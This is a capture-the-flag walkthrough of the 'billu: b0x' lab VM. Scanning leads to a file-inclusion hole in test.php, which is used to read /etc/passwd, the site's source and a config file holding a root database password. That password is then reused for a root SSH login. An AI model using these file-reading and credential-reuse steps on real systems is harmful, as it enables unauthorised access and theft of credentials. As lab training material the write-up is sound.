

#### billu: b0x

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Gaining Root](#gaining-root)

###### Attacker Info

```sh
root@kali:~/billu_b0x# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.11  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 337140  bytes 97012137 (92.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 463011  bytes 99920397 (95.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 376  bytes 70225 (68.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 376  bytes 70225 (68.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/billu_b0x#
```

###### Identify Victim

```sh
root@kali:~/billu_b0x# netdiscover
 Currently scanning: 192.168.12.0/16   |   Screen View: Unique Hosts

 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.8     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.14    00:0c:29:17:cf:f3      1      60  VMware, Inc.

root@kali:~/billu_b0x#
```

###### Nmap Scan

```sh
root@kali:~/billu_b0x# nmap -sV -sC -oA billo.nmap 192.168.1.14 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 22:32 EDT
Nmap scan report for 192.168.1.14
Host is up (0.00029s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: --==[[IndiShell Lab]]==--
MAC Address: 00:0C:29:17:CF:F3 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
root@kali:~/billu_b0x#
```

###### Web Enumeration

```sh
root@kali:~/billu_b0x# dirb http://192.168.1.14

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May 21 22:34:46 2018
URL_BASE: http://192.168.1.14/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.14/ ----
+ http://192.168.1.14/add (CODE:200|SIZE:307)
+ http://192.168.1.14/c (CODE:200|SIZE:1)
+ http://192.168.1.14/cgi-bin/ (CODE:403|SIZE:288)
+ http://192.168.1.14/head (CODE:200|SIZE:2793)
==> DIRECTORY: http://192.168.1.14/images/
+ http://192.168.1.14/in (CODE:200|SIZE:47544)
+ http://192.168.1.14/index (CODE:200|SIZE:3267)
+ http://192.168.1.14/index.php (CODE:200|SIZE:3267)
+ http://192.168.1.14/panel (CODE:302|SIZE:2469)
+ http://192.168.1.14/server-status (CODE:403|SIZE:293)
+ http://192.168.1.14/show (CODE:200|SIZE:1)
+ http://192.168.1.14/test (CODE:200|SIZE:72)

---- Entering directory: http://192.168.1.14/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon May 21 22:34:50 2018
DOWNLOADED: 4612 - FOUND: 11
root@kali:~/billu_b0x#
```

```
http://192.168.1.14/
```


```sh
root@kali:~/billu_b0x# nikto -h http://192.168.1.14
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.14
+ Target Hostname:    192.168.1.14
+ Target Port:        80
+ Start Time:         2018-05-21 22:40:15 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: testing only
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.1.1/images/".
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 22710, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ /in.php?returnpath=http://cirt.net/rfiinc.txt?: Output from the phpinfo() function was found.
+ OSVDB-5292: /in.php?returnpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-3092: /test.php: This might be interesting...
+ 8346 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2018-05-21 22:40:29 (GMT-4) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@kali:~/billu_b0x#
```

```
http://192.168.1.14/test.php
```


```sh
root@kali:~/billu_b0x# curl -X POST --data "file=/etc/passwd" http://192.168.1.14/test.php
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
root@kali:~/billu_b0x#
```

```sh
root@kali:~/billu_b0x# curl -X POST --data "file=index.php" http://192.168.1.14/test.php
<?php
session_start();

include('c.php');
include('head.php');
if(@$_SESSION['logged']!=true)
{
	$_SESSION['logged']='';

}

if($_SESSION['logged']==true &&  $_SESSION['admin']!='')
{

	echo "you are logged in :)";
	header('Location: panel.php', true, 302);
}
else
{
echo '<div align=center style="margin:30px 0px 0px 0px;">
<font size=8 face="comic sans ms">--==[[ billu b0x ]]==--</font>
<br><br>
Show me your SQLI skills <br>
<form method=post>
Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
<input type=submit name=login value="let\'s login">';
}
if(isset($_POST['login']))
{
	$uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
	   echo "You are allowed<br>";
	   $_SESSION['logged']=true;
	   $_SESSION['admin']=$row['username'];

	 header('Location: panel.php', true, 302);

}
else
{
	echo "<script>alert('Try again');</script>";
}

}
echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";

?>


root@kali:~/billu_b0x#
```

```sh
root@kali:~/billu_b0x# curl -X POST --data "file=c.php" http://192.168.1.14/test.php
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }

?>

root@kali:~/billu_b0x#
```

```
http://192.168.1.14/phpmy/
```




```sh
root@kali:~/billu_b0x# curl -X POST --data "file=/var/www/phpmy/config.inc.php" http://192.168.1.14/test.php
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
root@kali:~/billu_b0x#
```

###### Gaining Root

```sh
root@kali:~/billu_b0x# ssh root@192.168.1.14
The authenticity of host '192.168.1.14 (192.168.1.14)' can't be established.
ECDSA key fingerprint is SHA256:UyLCTuDmpoRJdivxmtTOMWDk0apVt5NWjp8Xno1e+Z4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.14' (ECDSA) to the list of known hosts.
root@192.168.1.14's password:
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue May 22 08:21:05 IST 2018

  System load:  0.0               Processes:           102
  Usage of /:   11.9% of 9.61GB   Users logged in:     0
  Memory usage: 20%               IP address for eth0: 192.168.1.14
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@indishell:~# ls -lah
total 24K
drwx------  4 root root 4.0K May 22 08:21 .
drwxr-xr-x 22 root root 4.0K Mar 18  2017 ..
drwx------  2 root root 4.0K Mar 18  2017 .aptitude
-rw-r--r--  1 root root 3.1K Apr 19  2012 .bashrc
drwx------  2 root root 4.0K May 22 08:21 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
root@indishell:~# cd /root
root@indishell:~# ls -lah
total 24K
drwx------  4 root root 4.0K May 22 08:21 .
drwxr-xr-x 22 root root 4.0K Mar 18  2017 ..
drwx------  2 root root 4.0K Mar 18  2017 .aptitude
-rw-r--r--  1 root root 3.1K Apr 19  2012 .bashrc
drwx------  2 root root 4.0K May 22 08:21 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
root@indishell:~# find / -name flag.txt
root@indishell:~#
```